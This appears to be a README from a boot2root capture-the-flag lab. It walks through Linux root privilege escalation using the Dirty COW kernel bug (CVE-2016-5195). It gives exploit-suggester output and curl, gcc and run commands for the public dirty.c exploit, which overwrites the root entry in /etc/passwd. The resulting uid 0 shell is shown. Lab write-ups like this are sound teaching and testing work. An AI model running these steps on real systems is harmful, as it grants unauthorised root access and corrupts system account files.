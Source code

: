 # Root privilege escalation - Method 2: Dirty cow (add /etc/passwd entry)

## LES: Linux privilege escalation auditing tool

LES tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
bash les.sh > les.log
```

[Full Report here](/home/aurelien/dev/42_boot2root/logs/les.html)

We will use the exploit `dirtycow2` based on `CVE-2016-5195` vulnerability, commonly named `Dirty cow`.

```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

## Dirty COW (Copy-On-Write)

### Details

[<img src="images/dirtycow.png" align="right" width="50%">](https://www.youtube.com/watch?v=kEsshExn7aE)

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.

Impact

- An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
- This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

### Exploit: Generates a new password hash on the fly and modifies /etc/passwd

| Link                                                                | Usage   | Description            | Family          |
| ------------------------------------------------------------------- | ------- | ---------------------- | --------------- |
| [dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c) | ./dirty | /etc/passwd based root | PTRACE_POKEDATA |

- This exploit uses the "pokemon" exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
- The user will be prompted for the new password when the binary is run.
- The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
- After running the exploit you should be able to login with the newly created user.

### How to

```shell
# Download and compile the exploit
curl https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c > dirty.c
gcc -pthread dirty.c -o dirty -lcrypt


# Run it and enter the new password
./dirty
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

# Login with newly created user
su firefart
id
  uid=0(firefart) gid=0(root) groups=0(root)

# DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
mv /tmp/passwd.bak /etc/passwd
```

or run:

```shell
./scripts/exploits/dirtycow_add_passwd_entry.sh
```

## Sources

### Helpers

- [book.hacktricks.xyz - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [Linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester)

### Vulnerability

- [Dirty Cow - Vulnerability Details](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

### Exploit

- [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
